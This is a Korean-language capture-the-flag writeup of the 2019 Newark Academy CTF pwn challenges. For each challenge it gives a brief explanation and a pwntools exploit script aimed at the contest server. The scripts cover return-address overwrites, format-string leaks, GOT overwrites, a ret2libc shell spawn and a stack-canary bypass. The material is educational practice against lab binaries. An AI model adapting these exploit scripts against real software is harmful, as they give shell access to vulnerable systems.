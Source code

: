 ```yaml
---
title: "2019 Newark Academy CTF Writeup"
date: 2019-9-23
tags: [CTF]
categories: [CTF]
---
```


# BufferOverflow #0

리턴값만 덮어주면 된다.

```python
from pwn import *

p = remote('shell.2019.nactf.com',31475) 
payload = ''
payload += 'A'*28
payload += p32(0x080491c2)
p.sendlineafter('>',payload)
p.interactive()
```

<br />

# BufferOverflow #1

리턴값만 덮어주면 된다.

```python
from pwn import *
 
p = remote('shell.2019.nactf.com',31462)
payload = ''
payload += 'A'*28
payload += p32(0x080491b2)
p.sendlineafter('>',payload)
p.interactive()
```

<br />

# BufferOverflow #2

인자로 들어가는 a1이 long long int라 p64로 값 맞춰주면 된다. 

```python
from pwn import *
 
context.log_level = "debug"
p = remote('shell.2019.nactf.com',31184)
e = ELF('./bufover-2')
win = 0x080491c2
payload = 'A'*28
payload += p32(e.sym.win)
payload += 'AAAA'
payload += p64(0x14B4DA55)
payload += p32(0xF00DB4BE)
p.sendlineafter('>',payload)
p.interactive()
```

<br />

# Format #0

그냥 printf 포맷스트링 버그 터지는데 Leak해주면 풀린다.

```python
from pwn import *
 
for i in range(30):
    p = remote('shell.2019.nactf.com',31782)
    payload = '%' + str(i) + '$s'
    sleep(1)
    p.sendlineafter('>',payload)
    ex = p.recv(1024)
    if 'nactf' in ex:
        print ex
        p.close()
        exit(0)
    p.close()
p.interactive()
```

<br />

# Format #1

fmtstr_payload로 printf got 주소를 win으로 바꿔주면 printf 함수 실행할때 win함수가 실행되서 풀릴 것이다.

```python
from pwn import *
 
p = remote('shell.2019.nactf.com',31560)
e = ELF('./format-1')
 
payload = fmtstr_payload(4,{e.got['printf']:e.symbols['win']})
p.sendlineafter('>',payload) 
p.interactive()
```

<br />

# Loopy#0

그냥 fsb로 leak해주고 RTL해주면 된다.

```python
from pwn import *
 
context.arch='i386'
e = ELF('loopy-0')
libc = ELF('./libc.so.6')
p = remote('shell.2019.nactf.com',31283)
 
popret = 0x0804901e # pop ebx ; ret
payload = p32(e.got['printf']) + '%4$s'
payload += 'A'*(0x48+4-8)
payload += p32(e.symbols['vuln']) # ret
p.sendlineafter('>',payload)
p.recvuntil(': ')
p.recv(4)
printf = u32(p.recv(4))
log.info('printf : ' + hex(printf))
libc_base = printf - libc.symbols['printf']
log.info('libc_base : ' + hex(libc_base))
 
payload2 = 'A'*(0x48+4)
payload2 += p32(libc_base + libc.symbols['system'])
payload2 += 'AAAA'
payload2 += p32(libc_base + libc.search('/bin/sh').next())
p.sendlineafter('>',payload2)
 
p.interactive()
```

<br />

# Loopy #1

Canary 걸려잇어서 stack_chk_fail GOT를 start로 바꾸고 Leak해주면서 Canary도 Leak해주고 Canary 잘 맞춰주고 페이로드 짜면 된다.

```python
from pwn import *
 
# context.log_level = 'debug'
e = ELF('./loopy-1')
libc = ELF('./libc.so.6')
p = remote('shell.2019.nactf.com',31732)
 
__stack_chk_fail = 0x0804C014 # got
_start = 0x08049090
 
payload = fmtstr_payload(7,{__stack_chk_fail:_start})
payload += 'A'*100
p.sendlineafter('>',payload)
 
payload2 = p32(e.got['printf']) + '%7$s'
payload2 += 'A'*100
p.sendlineafter('>',payload2)
 
p.recvuntil(': ')
p.recv(4)
libc_base = u32(p.recv(4)) - libc.symbols['printf']
log.info('libc_base : ' + hex(libc_base))
system = libc_base + libc.symbols['system']
binsh = libc_base + libc.search('/bin/sh\x00').next()
 
payload3 = '%31$p'
payload3 += 'A'*62
p.sendlineafter('>',payload3)
 
p.recvuntil(': ')
canary = int(p.recv(10),16)
log.info('canary : ' + hex(canary))
 
payload4 = 'A'*64
payload4 += p32(canary)
payload4 += 'A'*12
payload4 += p32(system)
payload4 += p32(system)
payload4 += p32(binsh)
p.sendlineafter('>',payload4)
 
p.interactive()
```

